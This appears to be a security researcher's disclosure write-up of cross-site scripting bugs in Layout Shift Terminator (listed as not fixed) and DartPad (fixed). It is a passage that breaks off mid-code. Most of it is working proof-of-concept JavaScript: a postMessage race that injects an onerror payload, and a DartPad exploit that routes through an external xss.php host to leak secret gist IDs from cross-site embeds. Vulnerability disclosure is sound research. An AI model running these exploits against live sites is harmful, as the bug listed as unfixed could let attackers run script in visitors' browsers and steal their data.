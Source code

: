 Leaking connection and DNS timings for gstatic.com resources via the performance API.
Sometimes it's used as an embed.

# XSS on Layout Shift Terminator (googlechromelabs.github.io) Not fixed

**URL:** <https://googlechromelabs.github.io/layout-shift-terminator/>

Since the page allows embedding and it's possible to navigate nested iframes.
It's possible to race the postMessage bypassing the `event.source === iframe.contentWindow` check.
This could also be done by abusing the chromium max iframe limit with the null contentWindow trick.

```js
f = document.createElement('iframe');
f.hidden = true;
document.body.appendChild(f);

function tryXSS() {
  loop = setInterval(() => {
    try {
      f.contentWindow[1].location = 'about:blank';
      f.contentWindow[1].eval(
        "parent.postMessage({duration: 1, height: '</style><img src=x onerror=alert(origin)>', width: 1}, '*')"
      );
      clearInterval(loop);
      f.contentWindow[1].location = 'https://googlechromelabs.github.io';
    } catch {}
  }, 100);

  f.src = 'https://googlechromelabs.github.io/layout-shift-terminator/?autorun';
}

tryXSS();
setInterval(tryXSS, 1000);
```

# XSS on DartPad (dartpad.dev) Fixed

This is an editor for Dart code.

By abusing the XSS in `frame.html` it allowed putting interactive content on other people's websites
that use the code embed via a popup window reference which is a spoofing risk especially if providing API keys on that site is expected behavior also It's leaking injected snippets or secret gists of that site.

```js
// Please click, Opening a victim popup needs user activation
onclick = () => {
  let frame = document.createElement('iframe');
  frame.src = 'https://dartpad.dev/frame.html';
  document.body.appendChild(frame);

  payload = `
 // XSS running on the dartpad.dev origin (instead of null)
 let win = open('https://terjanq.me/xss.php?html=%3Ciframe%20src=%22https://dartpad.dev/?id=5c0e154dd50af4a9ac856908061291bc?theme=light%22%3E%3C/iframe%3E');
 setTimeout(() => {
  // Leak the secret gist ID of a cross-site embed
  alert('Leaked: ' + win[0].location.search);
 }, 2000);
`;

  frame.onload = () => {
```